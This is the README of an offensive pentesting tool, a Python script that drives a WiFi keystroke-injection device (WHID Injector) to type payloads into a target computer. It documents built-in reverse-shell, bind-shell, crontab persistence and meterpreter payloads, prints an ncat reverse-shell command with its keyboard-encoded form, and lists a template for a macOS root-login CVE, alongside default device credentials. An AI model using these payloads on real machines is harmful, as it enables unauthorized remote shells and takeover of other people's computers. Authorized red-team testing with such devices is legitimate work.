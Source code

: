 # WHID Injector
**Disclaimer: Little project to interact with the WHID, mostly because I didn't wanted to modify the firmware to support my keyboard, feel free to improve it ;)**

What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format. Furthermore it has builtins payload such as reverse-shell and bind-shell.

**Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments.

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
 1. Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
 2. Open a web browser pointed to "**http://192.168.1.1**"   
    > The default administration username is "**admin**" and password "**hacktheplanet**".       

 3. Remember to upgrade the firmware you will find the latest version in this repository  

More info on the official Github : https://github.com/whid-injector/WHID


## How to use the script
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 192.168.1.12
>>> set port 4444
```

At the moment the following templates are available, feel free to add more:

| Template | Description |
| :------------- | :------------- |
| payloads/osx_high_sierra_root.txt | CVE-2017-13872 |
| payloads/osx.txt     | execute a command with [Cmd]+[Space] |
| payloads/windows.txt | execute a command with [Windows]+[R] |
| payloads/i3.txt      | execute a command with [Windows]+[Enter] |
| payloads/gnome.txt | execute a command with [Alt]+[F2] |
| payloads/default.txt | default behavior is the gnome command |

NOTE: The i3 payload uses the [Windows] key as the default modifier, some people prefer to use [CTRL]
